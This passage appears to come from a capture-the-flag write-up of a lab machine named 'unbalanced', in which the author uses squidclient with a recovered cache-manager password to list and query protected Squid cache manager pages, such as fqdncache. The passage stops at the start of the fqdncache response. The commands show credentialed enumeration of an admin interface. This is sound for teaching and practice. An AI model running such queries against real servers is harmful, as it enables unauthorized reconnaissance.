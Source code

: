     
    
    root@kali# squidclient -h 10.10.10.200 -w 'Thah$Sh1' mgr:menu
    HTTP/1.1 200 OK                                                                   
    Server: squid/4.6                                                                 
    Mime-Version: 1.0                                                                 
    Date: Sun, 16 Aug 2020 18:28:17 GMT                                               
    Content-Type: text/plain;charset=utf-8                                            
    Expires: Sun, 16 Aug 2020 18:28:17 GMT                                            
    Last-Modified: Sun, 16 Aug 2020 18:28:17 GMT                            
    X-Cache: MISS from unbalanced                                                     
    X-Cache-Lookup: MISS from unbalanced:3128                                
    Via: 1.1 unbalanced (squid/4.6)                                                   
    Connection: close                                                                 
    
     index                  Cache Manager Interface                 disabled
     menu                   Cache Manager Menu                      protected
     offline_toggle         Toggle offline_mode setting             disabled
     shutdown               Shut Down the Squid Process             disabled
     reconfigure            Reconfigure Squid                       disabled
     rotate                 Rotate Squid Logs                       disabled
     pconn                  Persistent Connection Utilization Histograms    protected
     mem                    Memory Utilization                      protected
     ...[snip]...
    

If I just look at the options that are `protected`, I can see it matches with
the actions identified in the config:

    
    
    root@kali# squidclient -h 10.10.10.200 -w 'Thah$Sh1' mgr:menu | grep protected
     menu                   Cache Manager Menu                      protected
     pconn                  Persistent Connection Utilization Histograms    protected
     mem                    Memory Utilization                      protected
     diskd                  DISKD Stats                             protected
     fqdncache              FQDN Cache Stats and Contents           protected
     filedescriptors        Process Filedescriptor Allocation       protected
     objects                All Cache Objects                       protected
     vm_objects             In-Memory and In-Transit Objects        protected
     counters               Traffic and Resource Counters           protected
     5min                   5 Minute Average of Counters            protected
     60min                  60 Minute Average of Counters           protected
     histograms             Full Histogram Counts                   protected
     cbdata                 Callback Data Registry Contents         protected
     sbuf                   String-Buffer statistics                protected
     events                 Event Queue                             protected
    

I walked through the various menu options. The one that provided me
interesting data was `fqdncache`:

    
    
    root@kali# squidclient -h 10.10.10.200 -w 'Thah$Sh1' mgr:fqdncache
    HTTP/1.1 200 OK
    Server: squid/4.6
    Mime-Version: 1.0
    Date: Mon, 17 Aug 2020 00:59:26 GMT
    Content-Type: text/plain;charset=utf-8
    Expires: Mon, 17 Aug 2020 00:59:26 GMT
    Last-Modified: Mon, 17 Aug 2020 00:59:26 GMT
    X-Cache: MISS from unbalanced
    X-Cache-Lookup: MISS from unbalanced:3128
    Via: 1.1 unbalanced (squid/4.6)
    Connection: close
    